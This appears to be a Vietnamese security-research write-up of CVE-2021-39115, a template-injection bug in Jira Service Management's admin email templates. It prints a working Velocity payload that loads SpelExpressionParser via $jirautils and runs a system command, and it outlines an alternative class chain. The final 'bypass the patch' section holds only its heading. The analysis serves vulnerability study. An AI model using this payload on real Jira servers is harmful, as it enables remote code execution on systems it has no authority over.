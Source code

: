 # CVE-2021-39115
Template Injection in Email Templates leads to code execution on Jira Service Management Server

## I) Bulding  
Mình đã hướng dẫn deploy + debug [ở đây](https://github.com/PetrusViet/CVE-2019-11581), các bạn có thể tham khảo.
## II) Phân tích  
Trong [Description](https://jira.atlassian.com/browse/JSDSERVER-8665) của CVE này cũng đã nói rõ là bug nằm ở tính năng `Email Template`. Với quyền admin, user có thể tùy ý chỉnh sửa tempate của các email thông báo. Bug này cần quyền admin để thực hiện nên dù có RCE cũng không mấy nghiêm trọng, nhưng mình vẫn quyết định viết blog với mục đích cho vui :) bạn nào đang tìm hiểu SSTI có thể tham khảo.  

- Bắt đâu vào công chuyện, mình deploy bản `atlassian-jira-servicedesk-4.17.0-m0006-standalone` và thử diff xem nó với bản 4.18.0 có gì khác nhau:
![image](https://user-images.githubusercontent.com/63145078/132321608-7b237f04-6a51-41b6-9f4e-7ca62adc79b9.png)

Khi nhìn thấy đống này thì,.... tất nhiên là mình không đọc từng file một rồi, mình lười lắm. Đùa vậy chứ thực ra ngoài có thêm bản fix về security, các phiên bản còn có sự nâng cấp + thay đổi ở các tính năng. Mình diff tất cả rồi ngồi đọc như vậy rất tốn thời gian. Đương nhiên trong 1 số trường hợp mình phải chịu diff hết rồi ngồi đọc, nhưng với trường hợp này thì mình không làm thế =)))  

<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132321714-a64051a5-3986-4456-8384-81f9433cdb54.jpg" />
</p>

- Như đã nói ở trên, admin có quyền đổi template của tất cả các email trong báo. Vì thế, bước đầu tiên là mình cần biết trong quá trình parse các email thông báo thì sẽ có những context gì? điều này là đặc biệt quan trọng trong khi muốn khai thác bug SSTI (có sử dụng sandbox). Cách hiểu quả nhất chính là debug nhảy vào đoạn parse email template để xem value của biến context.  
- Tất nhiên là sẽ có nhiều loại thông báo khác nhau (SignUp, change Password,...), mỗi loại sẽ sửa dụng một endpoint khác nhau. Mình sử dụng tính năng `SendBulkMail` để tạo email thông báo. Về stack call của endpoint này như thế nào thì mình xin phép không đề cập tới tránh dài dòng vì nó tương tự như stack call trong [CVE-2019-11581](https://github.com/PetrusViet/CVE-2019-11581)

Tại hàm `SimpleNote.render` mình có thể xem biến context để xem mình có thể tận dụng những gì:

<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132326485-a6dc3315-89eb-4e2a-a3ae-fba6e1cdee67.png" />
</p>

Theo kinh nghiệm của riêng của mình, thì mình sẽ chú ý kiểm tra các context/class có những từ khóa như: Utils, Manager, service,... . Mình lưu ý thấy có context `$jirautils` (class com.atlassian.jira.util.JiraUtils) có chứa method `public static <T> T loadComponent(String className, Class<?> callingClass) `:  
<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132327354-f11c8cbd-1269-4b3a-820b-969a9bde53a5.png" />
</p>

Mình lân la kiếm docs đọc xem chức năng của nó, nó xài như thế nào vì input đưa vào có String className cộng với output là một class nên rất có thể method này load class một cách tùy ý được:
<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132327939-2ed443ee-c6e6-41d6-8c0d-1f2633b45b23.png" />
</p>

- Như docs có nói, hàm này để load các class :) Mình bắt đầu vào việc ngay xem method đó có thực sự load được class tùy ý hay không:

Mình bay vào `System -> Email templates` và tải file template hiện tại về máy  
<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132328549-757ba4fe-e23d-4403-b65b-236faa0e29e8.png" />
</p>

Có rất nhiều template khác nhau, mỗi cái xài riêng cho một loại thông báo khác nhau nên mình kiếm cái file nào mà nó có thể xài chung cho nhiều loại thông báo khác nhau như `email\html\includes\header.vm`  
<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132330698-0f6c48b0-30b5-44c0-8f1d-c378206e3c5b.png" />
</p>


Sau khi up file template đã chỉnh sửa lên, và sử dụng `SendBulkMail` để gửi một email thông báo đi. Mình nhận được output trong email như thế này:  
<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132331018-8a0086eb-7a94-4719-82bb-38015fcfb994.png" />
</p>

Đại loại là class này không có constructors hoặc không được chấp nhận. Mình thử sử dụng một class khác có constructors (constructors không input) thử xem sao:  
<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132331508-7a0daa91-8490-43f2-8841-dded2e5a1ba5.png" />
</p>

Và kết quả đúng như mong đợi. mình đã lấy được class thành công: 
<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132331766-6c0b644c-5a59-4ed1-80bb-6ee3ce078a66.png" />
</p> 


<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132332107-9abf31b5-2e99-491f-b69b-d9047be16f83.jpg" />
</p> 

- Như vậy là ta đã có thể load class *gần* tùy ý rồi, cũng khá ổn. Nhưng làm sao để có thể RCE ??? jira sử dụng velocity template và có sandbox *khá* đầy đủ, với blacklist packages và blacklist class (với blacklist class nó có thể chặn tất cả các class được extends từ những class trong blacklist). Việc sử dụng các class được public ở trên mạng là điều gần như không thể. Tới đây mình bắt buộc phải diff giữa bản lỗi và bản patch xem chúng khác nhau như thế nào, tất nhiên mình sẽ không diff toàn bộ mà sẽ chỉ diff ở file conf của velocity *(\atlassian-jira\WEB-INF\classes\velocity.properties)* để xem có gì mới update hay không:  

<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132333357-b0d3a2e4-d279-4c37-b451-dfac34a7576e.png" />
</p> 

Ta thấy có 3 class được thêm vào blacklist : 

```
org.springframework.expression.spel.standard.SpelExpressionParser,\
com.atlassian.jira.component.ComponentAccessor,\
com.atlassian.jira.plugin.ComponentClassManager
```

Khi kiểm tra từng class, mình nhận thấy tại class `SpelExpressionParser` có hàm `public SpelExpression parseRaw(String expressionString)`, tra google một lát để tìm cách sử dụng thì đại loại nó có thể dùng như thế này:

```
#set($SpelExpressionParser = $jirautils.loadComponent('org.springframework.expression.spel.standard.SpelExpressionParser',$i18n.getClass()))
$SpelExpressionParser.parseRaw("T(java.lang.Runtime).getRuntime().exec('calc')")
```

<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132334944-3ea30c38-b968-4db3-9ce0-f20efbad619e.png" />
</p> 

Như các bạn thấy, hàm `parseRaw` trả về một object là một class `org.springframework.expression.spel.standard.SpelExpression` chứ chưa thực sự render biểu thức mình đưa vào. Mình nhảy vào class `SpelExpression` và thấy có method `getValue`:  

```java
@Nullable
    public Object getValue() throws EvaluationException {
        CompiledExpression compiledAst = this.compiledAst;
        if (compiledAst != null) {
            try {
                EvaluationContext context = this.getEvaluationContext();
                return compiledAst.getValue(context.getRootObject().getValue(), context);
            } catch (Throwable var4) {
                if (this.configuration.getCompilerMode() != SpelCompilerMode.MIXED) {
                    throw new SpelEvaluationException(var4, SpelMessage.EXCEPTION_RUNNING_COMPILED_EXPRESSION, new Object[0]);
                }
            }

            this.compiledAst = null;
            this.interpretedCount.set(0);
        }

        ExpressionState expressionState = new ExpressionState(this.getEvaluationContext(), this.configuration);
        Object result = this.ast.getValue(expressionState);
        this.checkCompile(expressionState);
        return result;
    }
```

Nhìn vào input/output, một người chơi hệ tâm linh như mình quyết định thử luôn chứ không coi docs nữa:

```
#set($SpelExpressionParser = $jirautils.loadComponent('org.springframework.expression.spel.standard.SpelExpressionParser',$i18n.getClass()))
$SpelExpressionParser.parseRaw("T(java.lang.Runtime).getRuntime().exec('calc')").getValue()
```
và kết quả:  

<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132335725-7af8cd87-102a-4dd7-a760-1603264cb376.png" />
</p> 

<p align="center">
  <img src="https://user-images.githubusercontent.com/63145078/132378122-bca57fd7-1bb2-41b4-8cb3-2918cbf3a7fc.jpg" />
</p> 

## III) Kết Luận

Như thế ta đã có thể bypass sanbox của velocity để RCE, thế nhưng khi đặt mình vào trường hợp của author - người tìm ra bug này thì còn có nhiều câu hỏi mà mình không thể giải thích được:
- Vì sao có tới 3 class được thêm vào black list?

khi mình tìm hiểu 3 class này, mình thấy chúng có thể tạo thành một chain: 
```
ComponentAccessor.getComponentClassManager() 
  => ComponentClassManager.newInstance(String className) (Class này có thể load class tùy ý)
        => SpelExpressionParser
```
nếu như author sử dụng `$jirautils` giống mình thì sẽ không cần tới 2 class kia làm gì. Nhưng nếu author không sử dụng `$jirautils` thì làm sao để có được ComponentAccessor???  
- Làm sao author có thể tìm ra được 3 class trên? Đây là câu hỏi mình lưu tâm và muốn được biết nhất, nhưng có lẽ chỉ có cách liên hệ trực tiếp với author thì mình mới biết được. Tiếc là mình không biết author của bug này là ai.  

### IV) Tiếp tục bypass bản patch

